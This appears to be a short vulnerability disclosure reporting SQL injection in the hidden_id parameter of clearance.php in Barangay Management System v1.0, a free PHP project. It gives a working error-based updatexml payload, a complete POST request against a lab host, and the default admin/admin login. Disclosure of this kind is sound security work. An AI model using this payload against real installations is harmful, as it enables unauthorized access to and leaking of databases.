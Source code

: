 # Barangay Management System v1.0 by itsourcecode.com has SQL injection

BUG_Author: QiaoRui feng

The decompression password for the source file is itsourcecode.

Login account: admin/admin (Super Admin account)

vendors: https://itsourcecode.com/free-projects/php-project/barangay-management-system-project-in-php-with-source-code/

Vulnerability File: /bmis/pages/clearance/clearance.php

Vulnerability location: /bmis/pages/clearance/clearance.php,hidden_id

[+] Payload: hidden_id=1' and updatexml(1,concat(0x7e,(select database()),0x7e),0)--+ // Leak place ---> hidden_id

```sql
POST /bmis/pages/clearance/clearance.php HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Referer: http://192.168.1.19/bmis/pages/clearance/clearance.php
Cookie: sessions=aj0k5o11d743ingah9kp1b0ejntrqer6; PHPSESSID=fbu82ocu8kd37b5b20uqq71a35; _ga=GA1.1.1382961971.1655097107; _gid=GA1.1.804632123.1655097107
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 209

hidden_id=1' and updatexml(1,concat(0x7e,(select database()),0x7e),0)--+&txt_edit_cnum=1&txt_edit_findings=1&txt_edit_purpose=1&txt_edit_ornum=1&txt_edit_amount=1&btn_save=Save&table_length=10&table1_length=10
```

![image](https://user-images.githubusercontent.com/54017627/173301960-250172ed-73eb-46f6-8c8a-d14f47f5003f.png)
